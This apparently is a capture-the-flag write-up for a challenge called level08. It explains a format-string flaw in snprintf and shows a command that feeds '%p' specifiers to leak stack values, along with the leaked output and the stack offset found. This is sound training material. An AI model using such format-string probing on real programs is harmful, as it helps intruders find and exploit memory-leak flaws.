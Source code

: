 # level08

As we can see in `log_wrapper`, the format of `snprintf()` is a variable, creating a vulnerability.  

```sh
$> ./level08 "$(python -c 'print("AAAAAAAA" + "%p "*100)')"

$> cat backups/.log 
LOG: Starting back up: AAAAAAAA0xffffffffffffffec 0xec 0x400d6c 0xffffffffffffffff 0x7fffffffe7ba 0x400d96 0x603010 0x676e697472617453 0x7075206b63616220 0x414141414141203a 0x6666666678304141 0x6666666666666666 0x6578302063656666 0x6430303478302063 0x6666667
```
*Our `'A's` are on the 10th position on the stack.*

